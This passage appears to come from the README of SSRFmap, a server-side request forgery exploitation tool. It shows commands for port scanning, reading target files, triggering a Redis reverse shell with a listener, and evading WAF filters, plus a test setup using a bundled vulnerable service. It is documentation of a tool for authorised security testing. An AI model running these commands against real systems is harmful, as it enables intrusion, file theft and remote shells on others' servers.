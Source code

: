 Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r examples/request.txt -p url -m readfiles,portscan
```

If you want to inject inside a header, a GET or a POST parameter, you only need to specify the parameter name

```powershell
python ssrfmap.py -r examples/request6.txt -p X-Custom-Header -m readfiles --rfiles /tmp/test
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r examples/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify `LHOST` and `LPORT`. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r examples/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

* Local
  ```powershell
  FLASK_APP=examples/example.py flask run &
  python ssrfmap.py -r examples/request.txt -p url -m readfiles
  ```

* Docker
  ```ps1
  docker build --no-cache -t ssrfmap .

  # run example ssrf http service
  docker run -it -v $(pwd):/usr/src/app --name example ssrfmap examples/example.py

  # run example ssrf dns service
  docker exec -u root:root -it example python examples/ssrf_dns.py

  # run ssrfmap tool
  docker exec -it example python ssrfmap.py -r examples/request.txt -p url -m readfiles
  ```
